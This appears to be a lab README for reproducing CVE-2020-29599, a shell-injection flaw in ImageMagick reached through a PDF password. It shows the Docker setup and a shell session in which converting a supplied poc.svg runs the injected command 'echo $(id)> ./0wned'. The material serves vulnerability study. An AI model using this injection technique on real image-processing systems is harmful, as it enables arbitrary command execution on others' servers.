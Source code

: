 # ImageMagick Shell Injection via PDF Password (CVE-2020-29599)

[中文版本(Chinese version)](README.zh-cn.md)

ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

References:

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## Environment Setup and Exploit

Execute the following command to enter the Linux shell where Imagemagick 7.0.10-36 is installed:

```
docker-compose.exe run im bash
```

Enter the `/tmp` directory and convert the format of [poc.svg](poc.svg) to trigger the vulnerability:

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

The command `echo $(id)> ./0wned` has been executed successfully:

![](1.png)
